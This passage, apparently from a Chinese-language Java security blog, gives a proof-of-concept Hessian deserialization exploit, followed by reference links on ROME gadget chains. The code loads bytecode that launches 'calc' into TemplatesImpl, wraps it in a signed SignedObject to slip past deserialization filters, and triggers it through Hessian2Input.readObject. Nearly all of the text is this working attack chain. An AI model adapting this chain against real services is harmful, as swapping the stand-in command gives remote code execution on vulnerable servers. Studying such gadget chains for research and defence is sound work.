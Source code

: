 ```java
    public static void main(String[] args) throws Exception{
        String cmd="calc";
        byte[] code= getTemplatesImplEvilCode(cmd);
        TemplatesImpl templates=new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "A");
        setFieldValue(templates, "_tfactory",null);
        Hashtable table1 = getPayload(Templates.class, templates);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(table1, kp.getPrivate(), Signature.getInstance("DSA"));

        Hashtable table2 = getPayload(SignedObject.class, signedObject);

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        Hessian2Output hessianOutput = new Hessian2Output(bos);
        hessianOutput.writeObject(table2);
        hessianOutput.getBytesOutputStream().flush();
        hessianOutput.completeMessage();
        hessianOutput.close();

        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());
        Hessian2Input hessianInput = new Hessian2Input(bis);
        hessianInput.readObject();
    }
}

```

## 参考：

https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%87%E4%B9%8BROME/

https://xz.aliyun.com/t/10824#toc-3